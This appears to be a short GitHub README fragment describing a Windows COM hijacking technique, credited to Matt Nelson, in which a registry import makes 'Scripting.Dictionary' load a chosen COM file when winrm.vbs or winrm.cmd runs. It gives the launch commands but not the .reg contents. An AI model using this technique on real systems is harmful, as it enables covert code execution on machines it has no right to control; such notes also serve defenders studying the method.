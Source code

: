Here, we can use Winrm.vbs to hijack COM object by making "Scripting.Dictionary" invokes COM file in registry, Scripting.Dictionary is often refers to ProgID.


Instructions:

```

C:\>reg import "file.reg"
The operation completed successfully.

C:\>start C:\Windows\System32\winrm.vbs
Or 
C:\> start C:\Windows\System32\winrm.cmd

C:\>
```


![21312313](https://user-images.githubusercontent.com/25440152/58567597-7876f080-81e7-11e9-971b-6362f2db1247.PNG)



### Author
* [Matt Nelson ](https://twitter.com/enigma0x3)
